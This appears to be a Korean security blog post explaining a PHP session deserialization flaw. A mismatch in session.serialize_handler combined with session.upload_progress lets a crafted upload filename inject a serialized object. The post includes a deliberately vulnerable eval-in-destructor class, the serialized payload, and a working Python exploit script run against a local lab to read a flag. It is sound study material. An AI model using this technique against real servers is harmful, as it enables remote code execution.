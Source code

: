 ```yaml
---
layout: post
title:  "PHP session.serialize_handler가 php_serialize로 되어 있는 경우 역직렬화 취약점 발생"
tags: [WEB-Vuln,WEB-Study]
excerpt: "PHP session.serialize_handler이 php_serialize에서 php으로 변경될 경우 세션이 역직렬화 되는 과정에서 발생하는 역직렬화 취약점"
---
```

---

# PHP session.serialize_handler이란?

PHP 설정 세팅 중 [session.serialize_handler](https://www.php.net/manual/en/session.configuration.php#ini.session.serialize-handler)는 세션의 데이터를 모두 직렬화/역직렬화할 때 사용되는 핸들러입니다.

간단하게 PHP세션의 직렬화/역직렬화 방식 핸들러를 session.serialize_handler옵션을 이용하여 지정할 수 있게 됩니다.

php.net를 살펴보면 나와있는대로 default는 php으로 지정되어 있고 php_binary, php_serialize, wddx가 있다고 나와 있습니다.

이번 블로그 글에서 다룰 부분은 session.serialize_handler이 기본으로 php_serialize으로 설정 되어 있는 상태에서 로컬에서 session.serialize_handler을 php 으로 바꾸는 과정에서 발생할 수 있는 역직렬화 취약점을 적어볼려고 합니다.

---

## PHP session.serialize_handler php_serialize 작동 방식

먼저 session.serialize_handler은 위에서 언급했다시피 기본 값으로는 php으로 되어있습니다.

만약 php에서 ``session_start();`` 함수를 이용하여 세션을 시작하면 ``session_save_path()`` 경로에 ``sess_(PHPSESSID)`` 형식으로 파일에 세션 정보가 직렬화되어 저장됩니다

하지만 만약 session.serialize_handler이 php일 경우 

```php
<?php 

session_start();

$_SESSION['test'] = 'test';

echo session_save_path()."\n";

?>
```

위와 같은 코드를 실행시키면 세션이 시작되면서 session_save_path() 함수 결과의 위치에 세션 정보가 있는걸 볼 수 있습니다.

```bash
$ cat /var/lib/php/sessions/sess_02g9od7s6sn9iv9ob8q63g8u0i
test|s:4:"test";
```

하지만 해당 코드를 session.serialize_handler를 php_serialize로 바꾼 다음 세션 파일을 읽어보면 데이터 저장 형식이 조금 달라진것을 볼 수 있습니다.

```php
a:1:{s:4:"test";s:4:"test";}
```

이제 이러한 php_serialize 방식을 이용하여 php 으로 바꼇을 때 역직렬화 취약점이 발생할 수 있는걸 다뤄보겠습니다.

---

# PHP session.serialize_handler unserialize exploit

먼저 session.serialize_handler을 이용하여 역직렬화 취약점을 발생시킬 수 있는 사이트를 구축해볼려면

[php session.serialize_handler 취약점 발생할 수 있는 환경을 만들어야되는데](https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize) 먼저 php.ini 파일 위치를 찾아 session.serialize_handler값을 php_serialize으로 바꾼 다음

+ [https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize](https://github.com/me2nuk/web_vuln_site_code/tree/main/php_session.serialize_handler_php_serialize)

위의 Github 코드와 똑같이 구축한 다음 소스코드를 분석해보면 config.php 파일에서 session.serialize_handler 값을 php으로 변경해주면 세션에 php_serialize으로 직렬화되어 저장되어 있던 데이터가 php으로 변경되면서 역직렬화되는 과정을 거치게 됩니다.

그리고 RCE 취약점을 발생시키기 위해서는 exploit 클래스의 command 값을 조작해야되는데

```php
ini_set("session.serialize_handler", "php");

class exploit{
    public $command;
    function __destruct() {
        eval($this->command);
    }
}

session_start();
```

위의 config.php 파일의 class exploit 부분을 똑같이 로컬에서 구축하여 serialize 함수를 이용해 데이터를 직렬화 해보면

![local test class exploit serialize](\post-images\PHP\SESSION\session.serialize_handler\local_test_exploit_class_serialize.png)

이렇게 ``O:7:"exploit":1:{s:7:"command";s:30:"include('/var/www/html/flag');";}`` exploit 클래스를 직렬화한 데이터가 출력되는것을 볼 수 있습니다.

---

## PHP session.upload_progress를 이용한 SESSION Upload

하지만 exploit 데이터를 가지고 있다고 해도 서버에다가 해당 정보를 전송 할 방법을 없기 때문에 

session.upload_progress.clenup 와 session.upload_progress.enable가 아래와 같이 구성되어 있는 경우

```
session.upload_progress.enabled = On
session.upload_progress.cleanup = Off
```

PHP에서 세션을 ``session_start()`` 함수를 사용하는 대신 POST로 ``PHP_SESSION_UPLOAD_PROGRESS`` 이름으로 파일 업로드하여 세션을 생성시킬 수 있습니다.

이제 ``session.upload_progress``을 이용하여 POST으로 요청하면 되는데 그냥 단순히 requests 모듈로 open 함수를 써서 files 매개변수에 값을 넣으면 url 인코딩되어 제대로된 값이 들어가지 않기 때문에 

직접 POST body 데이터를 만들어준 다음에 헤더에 me2nuk이라는 쿠키 이름으로 요청보내주면 sess_me2nuk 파일에 php_serialize 방식으로 직렬화된 데이터가 들어간 파일 이름이 직렬화 되어 

페이지에서는 command 이라는 변수가 조작되어 ``include('/var/www/html/flag');`` 코드가 실행되는걸 볼 수 있습니다.
 

```py
import requests

contents = """------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

me2nuk
------Me2nukPHPSessionUploadProgress
Content-Disposition: form-data; name="file"; filename="|O:7:\\"exploit\\":1:{s:7:\\"command\\";s:30:\\"include('/var/www/html/flag');\\";}"
Content-Type: text/plain

------Me2nukPHPSessionUploadProgress--"""

url = "http://127.0.0.1/"
headers = {
    "Content-Type": "multipart/form-data; boundary=----Me2nukPHPSessionUploadProgress",
    "Cookie": "PHPSESSID=me2nuk"
}
r = requests.post(url, headers=headers, data=contents)

print(r.request.body)

result = requests.get(url, headers=headers).text

print(result)
```

하지만 보통은 filename에 들어가게 되면 모든 세션의 정보가 하나로 직렬화되어 sess_me2nuk 파일에 저장되어있을텐데

저렇게 따로 데이터를 분리시켜 exploit 이라는 클래스를 조작할 수 있는 이유는 

\| 특수문자를 이용하여 세션 정보를 분리시켜줄 수 있었기 때문입니다.

만약 \| 파이프를 넣지 않으면 세션 정보로 구별되어 exploit 클래스에 전혀 영향을 끼치지 않으므로 filename 첫번째에 \| 파이프를 넣어준 다음 직렬화된 exploit 클래스 정보를 넣어주면 됩니다.

![request python](\post-images\PHP\SESSION\session.serialize_handler\request.png)

그러면 이렇게 요청한 결과 ``FLAG{phP_sEssi0n_s2rla1ize_haNd12R_pHp_s2ria1ize}``가 나오는걸 볼 수 있습니다.

---

## 후기

이 블로그에서 다룬 내용은 간단하게 ``session.upload_progress.clenup``, ``session.upload_progress.enabled``, ``session.serialize_handler`` 설정을 이용하여 역직렬화 취약점을 발생할 수 있는 주제에 대해 다뤘는데 

처음에는 잘 몰라서 삽질했지만 이 기회에 재밌는 취약점을 공부하여 좋았습니다.